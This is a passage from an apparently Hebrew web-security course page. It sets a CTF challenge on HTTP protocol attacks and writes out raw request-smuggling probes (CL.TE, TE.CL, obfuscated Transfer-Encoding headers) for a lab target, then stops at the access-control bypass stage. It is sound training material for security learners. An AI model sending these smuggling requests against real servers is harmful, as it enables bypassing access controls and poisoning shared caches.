

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/5 - תקיפות פרוטוקול HTTP/5.7 - אתגר CTF - פרוטוקול/5.7 - אתגר CTF - פרוטוקול - תרגיל/index.html · generator: mkdocs

# אתגר CTF - תקיפות פרוטוקול HTTP

## הקדמה

אתגר זה משלב את כל הנושאים שנלמדו בפרק 5 - הברחת בקשות, תקיפות HTTP/2, poisoning cache, הטעיית cache וpoisoning תור תגובות. האתגר בנוי בארבעה שלבים, כל אחד דורש טכניקה שונה ומתבסס על הקודם.

## תיאור הסביבה

```
Target architecture:

[Client] --HTTPS/H2--> [CDN/Cache] --HTTP/1.1--> [Reverse Proxy] --HTTP/1.1--> [Application]

- The CDN receives HTTP/2 and performs a downgrade to HTTP/1.1
- The Reverse Proxy forwards requests to the Application with keep-alive
- The cache stores static resources by file extension
- The /admin management panel is blocked by the Reverse Proxy
- There is a login and session management system
```

## שלב 1 - זיהוי סוג הברחה

**מטרה:** גלו אם המערכת פגיעה להברחת בקשות, ומאיזה סוג.

### הנחיות

1. שלחו בקשות בדיקה לזיהוי CL.TE:

```http
POST / HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1\r\n
Z\r\n
Q
```

2. שלחו בקשות בדיקה לזיהוי TE.CL:

```http
POST / HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0\r\n
\r\n
X
```

3. אם שני הסוגים לא עבדו, נסו HTTP/2 downgrade:
   - שלחו בקשת HTTP/2 עם Content-Length לא תואם
   - בדקו injection CRLF בheaders HTTP/2
   - נסו Transfer-Encoding ב-HTTP/2

4. נסו ערפולי TE.TE:

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
```

**תוצאה מצופה:** זיהוי סוג ההברחה (CL.TE, TE.CL, H2.CL, H2.TE, או TE.TE) ואישור עם בקשה שגורמת לשגיאה בבקשה הבאה.

**מעבדות רלוונטיות:**
- PortSwigger: HTTP request smuggling, basic CL.TE vulnerability
- PortSwigger: HTTP request smuggling, basic TE.CL vulnerability
- PortSwigger: HTTP request smuggling, obfuscating the TE header
- PortSwigger: H2.CL request smuggling

## שלב 2 - bypass בקרות גישה

**מטרה:** השתמשו בהברחה שגיליתם כדי לגשת לפאנל הניהול.
